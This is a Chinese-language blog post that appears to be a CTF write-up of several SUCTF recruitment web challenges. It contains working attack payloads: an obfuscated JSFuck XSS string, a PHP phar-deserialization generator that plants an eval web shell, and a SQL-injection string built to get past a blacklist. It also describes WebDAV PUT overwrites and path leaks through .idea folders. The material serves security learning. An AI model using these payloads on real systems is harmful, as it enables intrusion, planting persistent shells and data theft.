 ```yaml
---
layout: post
title: SUCTF招新赛Web一些题目的wp
tags: CTF
---
```


机缘巧合接触到这次招新赛，这次招新赛感觉web出的还不错，适合补充，复习一些基本的知识点。



## XSS1

要通过alert 1来获得flag，页面给出了逻辑

```javascript
<script>
function check(input) {
    while (input.indexOf('alert') >= 0) {
        input = input.replace(/(alert)+/g, '');
    }
    input = 'console.log("' + input + '");';
    var script = document.createElement('script');
    script.innerText = input;
    document.body.appendChild(script);
}
</script>
```

发现构造的input中，`input = 'console.log("' + input + '");';`通过字符串拼接之后，来执行js代码，这里只需要绕过console.log即可，思路跟sql注入差不多，前面闭合，后面注释掉就行了。

但是这里自己试了一下，普通的function没有成功，先上官方的wp，用了jsfuck：

```javascript
");[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])();//
```

## OnePiece

**这里学到了一个点，使用jetbrain系列的ide，会在工程中生成一个.idea文件，在这其中可能会暴露一些敏感路径。**

这题就是利用这个点，获得一个onepiece.zip的压缩包，和一个上传文件的路劲，压缩包解压后是一个加密后的php，找了很多加密脚本，都不行，以为这个是phpjiami，后来发现是phpjm，在`https://tool.lu/php`中可以进行解密，解密之后上传相应的名为flag的文件就可以轻松获得flag。

## Gallery

从cookie中可以发现提示：please read recent papers about phar,在seebug中找到一篇关于phar反序列化的文章，`https://paper.seebug.org/680/`文章解释的很详细。参考了他们的文章和自己尝试的记录`http://litch1.club/blog/2018/11/12/PHPphar/`。页面让我们上传文件，尝试上传一张png图片，可以看到自己上传的目录在`http://49.4.68.67:86/?act=get&pic=/var/www/html/sandbox/9d82be25ea7cbc134eea5a4042d04b1d/3568e8a137a417e845f59b2d81436c02.png`中，这里可以通过pic=url可以拿到index.php的源码，可以看到include了`include('./PicManager.php');`可以去看一下PicManger.php这个类，这个类是等一下需要使用的反序列化的类。

这里给出构建phar的函数，首先注意到反序列利用的_destruct()函数，

```php
    public function __destruct(){
        $fp=fopen($this->current_dir.'/'.$this->logfile,"a");
        foreach($this->actions as $act){
            fwrite($fp,$act."\n");
        }
        fclose($fp);
    }
```



```
public function gen(){
        @rmdir($this->current_dir);
        $this->current_dir="/var/www/html/sandbox/830f3265f8d9668d1604cb43d4c31ce6/"; //md5($_SERVER['REMOTE_ADDR'])
        $this->logfile='out.php';
        $this->actions=['<?php @eval($_POST[\'1\']);?>'];
        @unlink('phar.phar');
        $phar = new Phar("phar.phar");
        $phar->startBuffering();
        $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头用以欺骗检测
        $phar->setMetadata($this); //将自定义meta-data存入manifest
        $phar->addFromString("test.txt", "test"); //添加要压缩的文件
        //签名自动计算
        $phar->stopBuffering();
        //
}
$pic=new PicManager('/var/www/html/sandbox');
$pic->gen();
```

这里的利用逻辑是，我们使用phar://读取这个phar文件时，就反序列化生成了这个Picmanger,这里 利用的是_destruct，在fopen时，如果文件不存在，就会新建一个文件，我们这里利用out.php新建了一个php文件，再利用action写入shell。访问这个文件，即可获得flag。

## ClassicSqli

```php
<?php 
include "./config.php";
include "./flag.php";
error_reporting(0);

$black_list = "/guest|limit|substr|mid|like|or|char|union|select|greatest|\'|";
$black_list .= "=|_| |in|<|>|-|\.|\(|\)|#|and|if|database|where|concat|insert|having|sleep/i";
if(preg_match($black_list, $_GET['user'])) exit("Hacker detected!"); 
if(preg_match($black_list, $_GET['pw'])) exit("Hacker detected!"); 


$query="select user from chal where user='$_GET[user]' and pw='$_GET[pw]'"; 

$result = mysqli_query($link, $query);//这个result查出用户输入的user，pass对应的人
$result = mysqli_fetch_array($result);//返回
$admin_pass = mysqli_fetch_array(mysqli_query($link, "select pw from chal where user='admin'"));//查出admin的pass
echo "<h1>query : <strong><b>{$query}</b></strong><br></h1>";
if($result['user']) echo "<h2>Bonjour!, {$result['user']}</h2>"; 
if(($admin_pass['pw'])&&($admin_pass['pw'] === $_GET['pw'])){
        echo $flag;
    }
highlight_file(__FILE__); 
?>
```

这里看到过滤了很多东西，需要解决几个问题，一个是注释，无法使用#和--，**mysql中还有一种单行注释方法，使用;%00**，这题没有做出来，先上官方给的wp。

`?user=\&pw=^0%26%26user/**/regexp/**/0x61646d696e%26%26pw/**/regexp/**/%22^{}%22;%00`

这里user=\转义掉他后面的'使得pw='这里的引号和前面的闭合，接下来使用了^对前面`user='\'&pw='`这个条件进行了xor，（这里也是一个我不太理解的点，在Navicat中测试了一波，发现`SELECT username from user where username=0;`，可以选出所有的列，同时`SELECT username from user where username=false;`

也可以选出所有的列，还有一个是字符串和0异或的结果都是0，当字符串前面有数字时，异或结果是前面的数字），也就是这里第一个条件符合返回的是所有的user。接着使用&&，让user=Hex值的admin，**mysql可以自动将Hex值转换成字符串去查找，regexp可以代替=**。这题迷的地方还是挺多的，希望有大佬给我解答一下。

## secure html

题目为用户根据seesion创建了一个html页面，html页面的内容可控，php页面输出了这个html的内容，猜测他应该include了这个html，所以现在要做的就是往html中写php代码就行了。但是php页面对html的php代码进行了严格的控制，无法写入，看了官方wp。nginx开了webdav，可以用put去更新html的内容，然后只要访问php页面即可。



作业太多了，溜了溜了 ，还有一些题目又一些零碎的知识点，以后有空再整理吧（期中考后希望有空）